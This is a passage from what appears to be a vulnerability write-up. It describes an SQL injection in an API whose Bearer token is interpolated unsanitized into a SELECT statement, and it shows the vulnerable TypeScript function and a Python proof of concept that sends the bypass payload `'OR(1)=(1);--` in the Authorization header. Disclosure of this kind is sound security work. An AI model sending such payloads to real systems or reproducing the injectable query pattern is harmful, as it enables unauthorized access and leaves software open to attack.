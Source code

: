 As you can see, it extracts the "Authorization" header value by splitting it with the whitespace delimeter and then using the second index value which will be the token i.e. `bearerKey` which is later passed to `ApiKey.get` which is a method to retrieve the key from the database by preparing a SELECT statement passing the `clause` which will contain the user-supplied input, in this case a payload.

```ts
  get: async function (clause = "") {
    const db = await this.db();
    const result = await db
      .get(
        `SELECT * FROM ${this.tablename} ${clause ? `WHERE ${clause}` : clause}`
      )
      .then((res) => res || null);
    if (!result) return null;
    db.close();
    return { ...result };
  }
```

### Proof of Concept

How we can say something is vulnerable without the proof-of-concept? Apparently, I was having trouble setting up the vulnerable version of the application even with the docker so I am going to reference it from the report itself:

```py
import requests

url = "http://localhost:3001/api/v1/system"

headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Referer": "http://localhost:3000/",
    "Connection": "close",
    "Authorization": "Bearer not_valid_api_key'OR(1)=(1);--", # Injection here
    "Upgrade-Insecure-Requests": "1",
    "Sec-Fetch-Dest": "document",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-User": "?1",
    "If-None-Match": "W/\"773-MdgLun6ESFXPFk/WGHQAe92jMuI\"",
}

response = requests.get(url, headers=headers)

print(response.text)
```
